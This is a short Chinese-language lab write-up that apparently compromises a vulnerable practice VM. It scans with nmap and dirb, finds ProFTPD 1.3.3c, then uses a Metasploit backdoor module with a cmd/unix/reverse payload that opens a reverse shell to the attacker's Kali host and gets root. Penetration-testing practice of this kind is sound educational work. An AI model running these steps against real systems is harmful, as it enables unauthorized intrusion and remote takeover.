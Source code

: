 # 信息收集

## Nmap

开启kali用扫同网段，找到该虚拟机ip，同时扫描开放端口：

```
nmap -sn 192.168.111.0/24
nmap --min-rate 10000 -p- -Pn  192.168.111.139
nmap -sT -sC -sV -O -p21,22,80 192.168.111.139 
```

![截图](61bf4da2f8b63b7a71fe33b111f64655.png)

![截图](86071098f5b4d5e2781363fd6c5d1a94.png)

![截图](1bb4aee26845ff2d7f5eb5f33dcd135c.png)

## Web - 80

![截图](dfebaafeea3e3387f898f8fd011aa41f.png)

提示没有添加任何内容

### 目录 - FUZZ

```
dirb http://192.168.111.139
```

![截图](ce01dcefcedc7b85ff7daf0f11893ecb.png)

无可用信息

## PORT - 21

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
```

Google搜索发现存在漏洞，我们使用msf进行利用。

# 漏洞利用

```
msfconsole
search ProFTPd-1.3.3c
```

![截图](7cde8e9a160929b346ba302d40442185.png)

```
use 0
show options
set RHOSTS 192.168.111.139    //设置RHOSTS为靶机ip地址
set payload cmd/unix/reverse
set LHOST 192.168.111.128    //设置监听ip为kali的IP
```

![截图](d00966ae09f01f396ff6ff71311b7c77.png)

```
exploit
```

![截图](2e05f80df51891e1a58669d2e38eadc0.png)

攻击成功，成功拿到root权限